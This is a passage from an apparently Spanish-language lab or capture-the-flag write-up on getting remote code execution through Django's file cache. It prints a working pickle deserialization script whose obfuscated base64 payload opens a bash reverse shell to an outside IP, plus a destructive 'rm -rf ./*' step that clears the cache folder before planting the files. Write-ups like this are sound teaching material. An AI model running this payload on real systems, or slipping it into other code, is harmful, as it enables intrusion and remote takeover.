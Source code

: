 https://github.com/user-attachments/assets/0fe08660-d1bd-47ae-ad0b-d94cd1b18436

* Solo se cache la pestana de `explore` asi que ya sabemos que desencadenara la deserializacion, vamos a escalar

serializer.py
```python
import pickle
import os
import sys

class Malicious:
    def __reduce__(self):
        return (os.system, ('printf L2Jpbi9iYXNoIC1jICJiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjIxNi84ODg5IDA+JjEiCg==|base64 -d|bash',))

def main():
    # Verificar que se hayan proporcionado los nombres de archivo como argumentos
    if len(sys.argv) < 2:
        print("Uso: python script.py <archivo1> [archivo2]")
        sys.exit(1)
    
    # Obtener los nombres de archivo de los argumentos
    filenames = sys.argv[1:]
    
    # Crear cada archivo con el objeto serializado
    for filename in filenames:
        try:
            with open(filename, 'wb') as f:
                pickle.dump(Malicious(), f)
            print(f"Archivo creado: {filename}")
        except Exception as e:
            print(f"Error al crear {filename}: {e}")

if __name__ == "__main__":
    main()
```
* ejecutamos el script de la siguiente manera

```bash
rm -rf ./* && python3 serializer.py 1f0acfe7480a469402f1852f8313db86.djcache 90dbab8f3b1e54369abdeb4ba1efc106.djcache
```

* Despues de ejecutar el comando anterior vamos a la web y recargamos la pestana `explore` para que Django haga su trabajo y obtengamos `RCE`

<img width="2547" height="461" alt="image" src="https://github.com/user-attachments/assets/eb347af7-fc15-47a3-a9da-5cc48860d4a7" />

### User Sandy

Hacemos un tratamiento de la tty para tener una shell mas controlable y vemos que en el directorio actual tenemos un backup
